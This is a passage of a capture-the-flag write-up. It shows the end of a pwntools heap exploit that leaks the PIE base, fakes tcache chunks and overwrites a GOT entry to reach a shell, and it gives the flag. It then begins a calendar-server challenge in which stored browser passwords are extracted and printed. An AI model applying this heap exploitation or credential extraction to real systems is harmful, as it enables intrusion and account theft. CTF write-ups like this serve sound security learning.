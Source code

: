 ```python
    r.sendlineafter(": ", "1")
    r.recvuntil("\n\n")
    pie_base = u64(r.recvline().rstrip().ljust(8, '\x00'))-0x660f
    log.info("pie_base: {:#x}".format(pie_base))

    # Win attack allocation
    payload = p64(0x100)*3
    payload+= p64(0x100)+p64(pie_base+e.got["srand"])+p64(root-0x10) # leak
    payload+= p64(0x100)+p64(root-0x40) # win
    payload+= p64(0x100)+p64(impt+0x40)+p64(root-0x28) # root goes to leak
    payload = payload.ljust(0x90)
    r.sendlineafter("? ", "2")
    r.sendlineafter(": ", "2")
    r.sendlineafter(": ", str(len(payload)))
    r.sendlineafter(": ", payload)

    payload = p64(pie_base+0x3e40)*1
    r.sendlineafter("? ", "2")
    r.sendlineafter(": ", "1")
    r.sendlineafter(": ", str(len(payload)))
    r.sendlineafter(": ", payload)

    r.interactive()
```

The exploit mostly involved a lot of tcache faking, because I found that deleting the root node put me in a weird situation where I could overwrite the tcache metadata.
This way I could create my own fake chunks at arbitrary locations.

I could also use the normal input as a hacky way of writing arbitrary chunks.
But the full exploit flow is fuzzy in my head at this moment.

`TISC{ov3rFL0w_4T_1Ts_fIn3sT}`

## 7. Challendar

> PALINDROME suffers from Not Invented Here syndrome. They assigned an intern to build a replacement for their current calendar server! Luckily we managed to intercept their backups. Can you break in? 

The first part of this challenge was to discover the server IPs and credentials.
This was done through browser forensics, extracting stored passwords and history.

I used the [firepwd](https://github.com/lclevy/firepwd) tool to do so, getting the following credentials and ips.

```
http://chal02w3tgq6sy7hakz4q9oywcevzb7v6j1jpv.ctf.sg:37179:b'jrarj',b'H3110fr13nD'
http://chal02w3tgq6sy7hakz4q9oywcevzb7v6j1jpv.ctf.sg:35128:b'jrarj',b'H3110fr13nD'
```

Reading the code provided, it seemed like there were two services running, the **Intern server** and the **Original server**.
I drew the following diagram to illustrate the server setup.
